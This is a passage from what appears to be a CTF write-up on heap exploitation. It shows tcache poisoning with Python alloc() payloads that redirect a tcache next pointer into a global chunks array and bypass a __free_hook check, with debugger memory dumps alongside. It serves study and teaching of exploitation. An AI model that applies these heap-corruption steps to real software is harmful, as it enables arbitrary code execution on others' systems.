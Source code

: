 But in the tcache, on the top of the 0x110 bin is a chunk whos backing memory we completely control from the `unsorted` chunk:

```
tcachebins
0x110 [  2]: 0x55dc4f7209d0 —▸ 0x55dc4f7224d0 ◂— 0x0
```

The key here is that, because earlier we added chunk 9 to the tcache we now have 2 chunks on the bin, which means that if one of them happens to be consumed, the `next` ptr of that chunk will be trusted to contain a real chunk pointer, and this `next` is completely under our control.

Did you get all of that?

## Gloating

Its not too far now...

Now, we overwrite the `next` member of our tcache chunk '2':

```py
alloc(6, 0x2000, b'A'*0x508 + p64(0x111) + p64(pie_base + 0x4060))
alloc(8, 0x100, b'A')
```

Specifically, we overwrite it with the `chunks` array we also overwrite the `free_hook` copy so the check that verifies whether or not `__free_hook` has been overwritten checks a null pointer, and still believes everything is okay. This allows us to call `delete` after we overwrite `__free_hook`, and subsequently call `free()`.

Now once we consume another entry from the tcache we can see this corruption in action:

```
tcachebins
0x110 [  1]: 0x55d4de18f060 (chunks) —▸ 0x55d4e00e44c0 ◂— ...
```

The next element consumed from the tcache will now hand out an allocation that points into the `chunks` array:

```py
    alloc(10, 0x100, p64(heap_base + 0x10) + p64(0)*11 + p64(heap_base + 0x400))
```

This overwrites the entire `chunks` array:

```
                                           V idx '0' now points to the first chunk on the heap - this is where the tcache
                                             `tcache_perthread_struct` struct is stored.
    0x5577491b2060 <chunks>:        0x000055774ad5b010      0x0000000000000000
    0x5577491b2070 <chunks+16>:     0x0000000000000000      0x0000000000000000
    0x5577491b2080 <chunks+32>:     0x0000000000000000      0x0000000000000000
    0x5577491b2090 <chunks+48>:     0x0000000000000000      0x0000000000000000
    0x5577491b20a0 <chunks+64>:     0x0000000000000000      0x0000000000000000
    0x5577491b20b0 <chunks+80>:     0x0000000000000000      0x0000000000000000
    0x5577491b20c0 <free_hook>:     0x000055774ad5b400 <------ we also overwrite a copy of the __free_hook.
```
